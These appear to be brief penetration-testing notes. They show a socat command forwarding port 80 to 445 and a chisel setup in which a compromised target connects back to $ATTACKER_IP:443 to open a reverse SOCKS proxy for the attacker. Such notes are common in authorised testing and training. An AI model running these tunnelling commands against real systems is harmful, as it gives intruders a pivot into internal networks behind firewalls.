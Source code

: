 # port forwarding

Forward port 80 to 445

```bash
socat TCP-LISTEN:80,fork TCP:127.0.0.1:445
```

# tunneling through chisel
Tunnel through 443 and open a socks proxy on attacker localhost.
## Attacker
```bash
./chisel server --port 443 --reverse
```
## Target
```
./chisel client $ATTACKER_IP:443 R:socks
```
